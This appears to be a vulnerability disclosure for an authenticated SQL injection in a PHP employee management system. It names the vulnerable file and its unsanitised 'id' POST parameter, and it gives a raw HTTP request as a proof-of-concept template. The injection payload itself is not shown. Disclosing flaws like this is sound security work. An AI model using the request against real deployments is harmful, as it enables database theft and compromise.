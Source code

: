 The Best Employee management system has an SQL injection vulnerability that, after being authenticated, could be exploited by an attacker to steal information or compromise a database.





Source code address：https://www.sourcecodester.com/php/17689/best-employee-management-system-php.html



The vulnerability is located in the admin/Operation/ role-ph file. Some code in the file is used to verify user information, and then directly see the problem code, receive the id parameter of the POST request submitted after authentication, and directly concatenate with the SQL statement, which has potential security risks.

![image-20250314151408701](images/image-20250314151408701.png)



Vulnerability verification：

```
POST /employee/admin/Operation/Role.php HTTP/1.1
Host: 192.168.80.152
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
DNT: 1
Referer: http://192.168.80.152/employee/admin/edit_role.php
Cookie: PHPSESSID=323brna9jrc7c8eqaq5sdhnk65
Connection: keep-alive
Content-Type: multipart/form-data; boundary=---------------------------20171085214986
Content-Length: 569

-----------------------------20171085214986
Content-Disposition: form-data; name="id"


-----------------------------20171085214986
Content-Disposition: form-data; name="assign_name"

Leave Manager
-----------------------------20171085214986
Content-Disposition: form-data; name="description"

Manages leaves
-----------------------------20171085214986
Content-Disposition: form-data; name="checkItem[]"

25
-----------------------------20171085214986
Content-Disposition: form-data; name="btn_edit"


-----------------------------20171085214986--

```

![image-20250314150600043](images/image-20250314150600043.png)





































